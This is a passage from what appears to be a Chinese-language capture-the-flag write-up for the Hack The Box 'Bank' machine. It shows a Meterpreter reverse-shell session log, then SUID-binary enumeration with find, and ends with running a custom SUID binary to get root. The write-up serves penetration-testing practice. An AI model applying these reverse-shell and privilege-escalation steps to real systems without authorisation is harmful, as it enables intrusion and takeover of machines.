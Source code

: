 [*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Sending stage (39860 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.10.10.29:40126) at 2022-09-29 02:49:59 -0400

meterpreter > getuid
Server username: www-data

```


# 提权

枚举所有SUID
```
www-data@bank:/home/chris$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount

```
发现一个不常见的SUID

```
/var/htb/bin/emergency
```

尝试执行，直接提权到了root。。
```
www-data@bank:/home/chris$ /var/htb/bin/emergency
/var/htb/bin/emergency
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root

